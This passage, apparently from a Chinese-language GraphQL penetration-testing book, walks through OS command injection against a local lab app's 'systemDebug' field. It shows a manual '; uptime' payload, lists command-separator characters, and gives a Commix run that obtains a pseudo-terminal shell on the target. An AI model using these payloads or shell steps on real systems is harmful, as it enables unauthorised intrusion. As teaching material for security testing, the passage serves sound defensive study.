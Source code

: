 现在输出看起来有点不同。这是因为 `e` 和 `f` 是 `ps` 命令接受的两个有效参数，它们改变了输出的格式。`e` 参数显示系统上的所有进程，而 `f` 参数将输出格式更改为完整格式列表。

看起来 `arg` 参数接受我们的输入，并将其与 `ps` 命令连接起来。我们可以通过修改 `arg` 来引入自己的命令，例如添加分号字符（`;`），然后接着选择另一个 Linux 命令，如 `uptime`：

```
**query {**
 **systemDebug(arg:"; uptime")**
**}**
```

现在我们得到了不同的输出。似乎包含了来自 GraphQL 服务器的系统信息，验证了我们关于操作系统命令注入可能性的假设：

```
PID TTY          TIME CMD\n  11999 pts/1    00:00:00 bash\n  14050 pts/1
1 user,  load average: 0.71, 0.84, 0.91\n"
```

接下来，我们将探讨如何通过利用专门的命令注入框架，更有效地测试操作系统命令注入。

### 使用 Commix 进行自动化测试

到目前为止，我们已经采用手动方式来识别操作系统命令注入漏洞。然而，有时候这些漏洞并不会那么容易找到和利用。例如，一些应用程序可能会限制它们接受的字符类型，使得向查询参数等位置注入命令变得更加困难。或者，位于我们和目标 GraphQL API 之间的防火墙可能会阻止危险字符的接受。这些安全控制措施使得通过手动测试方法识别漏洞变得困难且耗时。

自动化命令注入有助于测试许多字符变化，直到我们找到正确的逻辑。例如，命令注入可以通过引入以下任一字符等方式发生：

+   分号（`;`）用来分隔命令

+   一个单独的与号（`&`）用来将第一个命令发送到后台并继续执行我们引入的第二个命令。

+   双与号（`&&`）用来在第一个命令执行成功（返回 `true`）后运行第二个命令，作为 AND 条件

+   双管道符号（`||`）用来在第一个命令执行失败（返回 `false`）后运行第二个命令，作为 OR 条件

通过使用自动化注入工具，我们可以轻松地测试许多这些字符。

*Commix* 是一个跨平台的操作系统命令注入框架，能够发现并利用应用程序中的这些漏洞。Commix 通过对各种应用程序输入进行模糊测试，并检查服务器响应中的模式来进行其“魔法”，这些模式表明命令注入成功。Commix 还可以通过推测来识别成功的注入尝试，例如通过向命令中添加延迟并使用 `sleep` 来计时响应。

让我们再看看 GraphQL 的 `systemDebug` 字段，它使我们能够通过 `arg` 参数注入操作系统命令。假设在渗透测试中，我们尚未及时识别出如何利用应用程序，但觉得可能有一些东西值得探索。我们可以使用 Commix 通过尝试数十种有效载荷变体来扩大攻击规模，从而节省宝贵的时间。

在 列表 8-5 中的 Commix 命令展示了如何对我们的目标应用执行注入测试：

```
# **commix --url="http://127.0.0.1:5013/graphql"**
**--data='{"query":"query{systemDebug(arg:\"test \")}"}' -p arg**

[info] Testing connection to the target URL.
You have not declared cookie(s), while server wants to set its own.

Do you want to use those [Y/n] > **Y**
[info] Performing identification checks to the target URL.
Do you recognize the server's operating system? [(W)indows/(U)nix/(q)uit] > **U**
JSON data found in POST data. Do you want to process it? [Y/n] > **Y**
It appears that the value 'query{systemDebug(arg:\"test\")}' has boundaries.
Do you want to inject inside? [Y/n] > **Y**

[info] Testing the (results-based) classic command injection technique.
[info] **The POST (JSON) parameter 'arg' seems injectable** via (results-based)
classic command injection technique.
       |_ echo UTKFLI$((13+45))$(echo UTKFLI)UTKFLI

Do you want a Pseudo-Terminal shell? [Y/n] > **Y**
Pseudo-Terminal (type '?' for available options)

commix(os_shell) > **ls**

__pycache__ app.py config.py core db dvga.db pastes requirements.txt
setup.py static templates version.py
```
